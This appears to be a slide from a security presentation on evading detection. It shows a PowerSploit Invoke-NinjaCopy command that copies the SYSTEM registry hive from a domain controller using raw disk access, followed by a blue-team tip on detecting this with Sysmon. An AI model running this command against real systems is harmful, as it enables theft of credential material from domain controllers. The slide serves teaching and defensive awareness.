

# Not Detected*: PSRemoting with Raw Disk Access
PowerSploit: Ninja-Copy

Invoke-NinjaCopy -Path "c:\Windows\System32\config\SYSTEM" -ComputerName "dc03.prod.local" -LocalDestination "c:\temp\system"

Blue Tip: You can detect LSASS injection/raw disk access with Sysmon